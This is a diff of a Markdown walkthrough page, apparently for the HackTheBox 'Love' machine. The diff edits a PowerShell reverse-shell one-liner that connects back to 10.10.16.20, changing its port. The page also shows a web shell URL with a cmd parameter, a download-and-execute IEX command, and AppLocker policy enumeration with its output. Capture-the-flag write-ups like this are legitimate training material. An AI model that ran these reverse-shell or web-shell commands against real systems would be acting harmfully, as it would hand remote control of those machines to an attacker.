

Before and after one commit to r1skkam/HackTheBox-Walkthroughs, a Markdown page: After failed OSCP/Love/README.md, 2 parts joined by grey strips. Shown at 95% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/After failed OSCP/Love/README.md
+++ b/After failed OSCP/Love/README.md
@@ -158,7 +158,7 @@ view-source:http://www.love.htb/images/haxez.php?cmd=type%20C:\Users\phoebe\Desk
 ![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/ca9e7228-0129-4641-b8de-e55fdbcb32bf)
 
 ```
-powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.16.20',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
+$client = New-Object System.Net.Sockets.TCPClient('10.10.16.20',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
 ```
 
 https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcpOneLine.ps1
@@ -174,0 +190,59 @@ http://www.love.htb/images/haxez.php?cmd=powershell "IEX(New-Object Net.WebClien
+![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/037c5138-c7a5-46f3-ab72-ddab56ac9b5e)
+
+```
+get-applockerpolicy -effective | select -expandproperty rulecollections
+```
+
+```
+PublisherConditions : {*\*\*,0.0.0.0-*}
+PublisherExceptions : {}
+PathExceptions      : {}
+HashExceptions      : {}
+Id                  : b7af7102-efde-4369-8a89-7a6a392d1473
+Name                : (Default Rule) All digitally signed Windows Installer files
+Description         : Allows members of the Everyone group to run digitally signed Windows Installer files.
+UserOrGroupSid      : S-1-1-0
+Action              : Allow
+
+PathConditions      : {%WINDIR%\Installer\*}
+PathExceptions      : {}
+PublisherExceptions : {}
+HashExceptions      : {}
+Id                  : 5b290184-345a-4453-b184-45305f6d9a54
+Name                : (Default Rule) All Windows Installer files in %systemdrive%\Windows\Installer
+Description         : Allows members of the Everyone group to run all Windows Installer files located in
+                      %systemdrive%\Windows\Installer.
+UserOrGroupSid      : S-1-1-0
+Action              : Allow
+
+PathConditions      : {*.*}
+PathExceptions      : {}
+PublisherExceptions : {}
+HashExceptions      : {}
+Id                  : 64ad46ff-0d71-4fa0-a30b-3f3d30c5433d
+Name                : (Default Rule) All Windows Installer files
+Description         : Allows members of the local Administrators group to run all Windows Installer files.
+UserOrGroupSid      : S-1-5-32-544
+Action              : Allow
+
+PathConditions      : {%OSDRIVE%\*}
+PathExceptions      : {%OSDRIVE%\Administration\*}
+PublisherExceptions : {}
+HashExceptions      : {}
+Id                  : 7eadbece-51d4-4c8b-9ab5-39faed1bd93e
+Name                : %OSDRIVE%\*
+Description         :
+UserOrGroupSid      : S-1-1-0
+Action              : Deny
+
+PathConditions      : {%OSDRIVE%\Administration\*}
+PathExceptions      : {}
+PublisherExceptions : {}
+HashExceptions      : {}
+Id                  : e6d62a73-11da-4492-8a56-f620ba7e45d9
+Name                : %OSDRIVE%\Administration\*
+Description         :
+UserOrGroupSid      : S-1-5-21-2955427858-187959437-2037071653-1002
+Action              : Allow
+```
+
````
Also changed, not shown: other parts of After failed OSCP/Love/README.md (+38 -0 lines).
